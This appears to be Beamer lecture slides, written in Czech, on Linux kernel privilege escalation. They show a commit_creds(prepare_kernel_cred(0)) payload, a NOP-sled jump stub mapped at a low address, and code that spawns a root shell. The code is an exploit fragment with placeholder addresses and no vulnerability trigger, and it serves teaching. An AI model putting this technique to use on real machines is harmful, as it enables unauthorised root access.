 \begin{frame}[fragile]{Eskalace oprávnění}{Kód}

  \begin{block}{Kód k eskalaci oprávnění}
    \begin{tabular}{lp{.5em}l}
      \begin{lstlisting}
int (*commit_creds)(unsigned long) = X;
unsigned long (*prepare_kernel_cred)(
      unsigned long) = Y;

int kernel_code() {
  commit_creds(prepare_kernel_cred(0));
  return -1;
}
      \end{lstlisting} &&
      \begin{uncoverenv}<2->
	\begin{lstlisting}
void __jump(void);
void __jump_end(void);

void jump_payload_not_used() {
  asm volatile ("__jump:\n"
                "movq $kernel_code, %rax\n"
                "jmpq *%rax\n"
                "__jump_end:\n");
}
	\end{lstlisting} %
      \end{uncoverenv}
    \end{tabular}
  \end{block}

\medskip

  \begin{uncoverenv}<3->
    \begin{center}
      \begin{tabular}{l|l}
	Exploit's  & 0x100000000 \\ \hline
	\begin{lstlisting}
int kernel_code() {
  commit_creds(prepare_kernel_cred(0));
  return -1;
}
	\end{lstlisting} &
	\begin{lstlisting}
<many nops>
nop
nop
movq $kernel_code, %rax
jmpq *%rax
	\end{lstlisting} %
      \end{tabular}
    \end{center}
  \end{uncoverenv}

\end{frame}

\begin{frame}[fragile]{Spuštění rootovského shellu}

  \begin{lstlisting}
  const unsigned long jump_sz = __jump_end - __jump;
  memset(mmap_start, 0x90, mmap_size); /* 0x90 is 'nop' */
  memcpy(mmap_start + mmap_size - jump_sz, __jump, jump_sz);
\end{lstlisting}

  \pause
  \bigskip

  \begin{lstlisting}
  if(!getuid()) /* am I really root? */
    system("/bin/sh");
\end{lstlisting}

\end{frame}

